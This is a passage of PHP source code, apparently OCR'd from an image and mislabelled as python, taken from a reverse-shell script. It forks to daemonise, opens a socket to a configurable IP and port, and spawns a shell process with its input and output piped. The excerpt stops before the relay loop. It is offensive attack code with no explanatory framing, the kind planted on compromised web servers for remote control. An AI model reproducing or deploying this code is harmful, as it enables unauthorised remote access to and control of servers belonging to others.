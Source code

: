 ```python
//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
```